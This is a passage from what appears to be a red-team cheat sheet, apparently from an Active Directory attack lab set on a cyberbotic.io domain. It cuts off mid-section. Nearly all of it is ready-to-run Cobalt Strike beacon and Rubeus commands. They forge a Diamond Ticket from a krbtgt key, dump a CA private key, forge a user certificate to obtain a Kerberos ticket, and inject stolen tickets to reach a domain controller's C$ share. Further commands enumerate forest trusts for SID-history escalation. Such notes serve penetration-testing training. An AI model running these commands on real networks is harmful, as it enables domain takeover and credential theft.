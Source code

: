 beacon> steal_token 5060
beacon> run klist
beacon> ls \\dc-2.dev.cyberbotic.io\c$
```
### Diamond Ticket (online)
```powershell
1. Fetch the SID of Ticket User
beacon> powerpick ConvertTo-SID dev/nlamb

2. Create Diamond ticket (512 - Enterprise Group ID, krbkey - Hash of KRBRGT account)
beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe diamond /tgtdeleg /ticketuser:nlamb /ticketuserid:1106 /groups:512 /krbkey:<krbtgt-aes256> /nowrap

3. Verify the specs of Diamond ticket vs Golden ticket
PS C:\Users\Attacker> C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe describe /ticket:doIFYj[...snip...]MuSU8=
```
### Forged certificates (DC or CA Server)
```powershell
1. Dump the Private Key and Certificate of CA (to be executed on DC/CA)
beacon> execute-assembly C:\Tools\SharpDPAPI\SharpDPAPI\bin\Release\SharpDPAPI.exe certificates /machine

2. Save the certificate in .pem file and convert into pfx format using openssl
ubuntu@DESKTOP-3BSK7NO ~> openssl pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx

3. Next, use the stolen CA cert to generate fake cert for nlamb user
PS C:\Users\Attacker> C:\Tools\ForgeCert\ForgeCert\bin\Release\ForgeCert.exe --CaCertPath .\Desktop\sub-ca.pfx --CaCertPassword pass123 --Subject "CN=User" --SubjectAltName "nlamb@cyberbotic.io" --NewCertPath .\Desktop\fake.pfx --NewCertPassword pass123

4. Encode the certificate
ubuntu@DESKTOP-3BSK7NO ~> cat cert.pfx | base64 -w 0

5. Use the certificate to get TGT for nlamb user
beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe asktgt /user:nlamb /domain:dev.cyberbotic.io /enctype:aes256 /certificate:MIACAQ[...snip...]IEAAAA /password:pass123 /nowrap

6. Inject the ticket and access the service
beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe createnetonly /program:C:\Windows\System32\cmd.exe /domain:DEV /username:nlamb /password:FakePass /ticket:doIFLz[...snip...]MuaW8=

beacon> steal_token 5060
beacon> run klist
beacon> ls \\dc-2.dev.cyberbotic.io\c$
```
## Forest & Domain Trusts
```powershell
# Enumerate the Domain Trust (Use -Domain attribute to enumerate other domains)
beacon> powerpick Get-DomainTrust

## PrivEsc : Child (DEV.CYBERBOTIC.IO) to Parent (CYBERBOTIC.IO) within Same Domain via SID History

# Enumerate basic info required for creating forged ticket
beacon> powerpick Get-DomainGroup -Identity "Domain Admins" -Domain cyberbotic.io -Properties ObjectSid
beacon> powerpick Get-DomainController -Domain cyberbotic.io | select Name
beacon> powerpick Get-DomainGroupMember -Identity "Domain Admins" -Domain cyberbotic.io | select MemberName

# Use Golden Ticket technique
```